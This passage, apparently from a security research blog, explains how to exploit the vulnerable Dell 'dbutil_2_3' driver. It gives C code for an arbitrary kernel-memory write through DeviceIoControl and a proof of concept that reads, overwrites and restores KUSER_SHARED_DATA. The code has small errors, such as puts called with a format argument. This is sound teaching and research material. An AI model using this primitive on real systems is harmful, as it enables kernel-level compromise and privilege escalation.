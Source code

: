 The second one is for writing kernel memory, by passing the device handle, a kernel address and a 64-bit value to write.

{% highlight c %}
/**
 * Write kernel space memory.
 * 
 * @param HANDLE hDevice The handle to the vulnerable driver.
 * @param uint8_t* address Kernel space address to write to.
 * @param uint8_t* user_address The 64-bit value to write.
 * @return uint8_t* The memory byte stream.
 */
void memoryWrite(HANDLE hDevice, uint8_t* kernel_address, uint8_t* user_address) {
    uint32_t lpBytesReturned;
    PACKET lpBuffer;

    lpBuffer.user_address = user_address;
    lpBuffer.user_address_offset = 0;
    lpBuffer.kernel_address = kernel_address;

    if (!DeviceIoControl(hDevice, ARBITRARY_WRITE_IOCTL, &lpBuffer, sizeof(lpBuffer), &lpBuffer, sizeof(lpBuffer), &lpBytesReturned, NULL)) {
        puts("DeviceIoControl error in 'memoryWrite'.");
    }
}
{% endhighlight %}

The code below is proof-of-concept code on how to use these functions. We read from and write to the address `0xfffff78000000000`, which holds the `KUSER_SHARED_DATA` struct on 64-bit Windows machines. The first 64-bits of this struct hold `TickCountLowDeprecated` (a deprecated `ULONG`) and `TickCountMultiplier` also a `ULONG`.

{% highlight c %}
HANDLE hDevice = CreateFileW(L"\\\\.\\dbutil_2_3", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

if (hDevice == INVALID_HANDLE_VALUE) {
    puts("Failed to open handle to kernel driver.");
    return;
}

// Reading from 0xfffff78000000000
uint64_t initialValue = memoryRead(hDevice, 0xfffff78000000000);
printf("0xfffff78000000000: %x.", initialValue);

// Writing to 0xfffff78000000000
memoryWrite(hDevice, 0xfffff78000000000, 1);
puts("Wrote 1 to 0xfffff78000000000.");

// Recovering 0xfffff78000000000
memoryWrite(hDevice, 0xfffff78000000000, initialValue);
puts("Recovered 0xfffff78000000000 to %x.", initialValue);
{% endhighlight %}

### 3. Foundation
